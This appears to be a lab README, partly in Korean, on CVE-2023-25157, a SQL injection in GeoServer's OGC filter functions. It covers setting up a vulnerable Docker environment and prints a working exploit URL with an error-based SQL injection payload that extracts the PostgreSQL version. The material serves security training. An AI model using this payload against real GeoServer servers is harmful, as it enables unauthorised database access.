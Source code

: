 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)

## 요약
GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
## Vulnerable environment

Execute following command to start a GeoServer instance 2.22.1:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.


## 결과
아직 없음

## Exploit

First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

Exploit the server by this simple URL:

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.

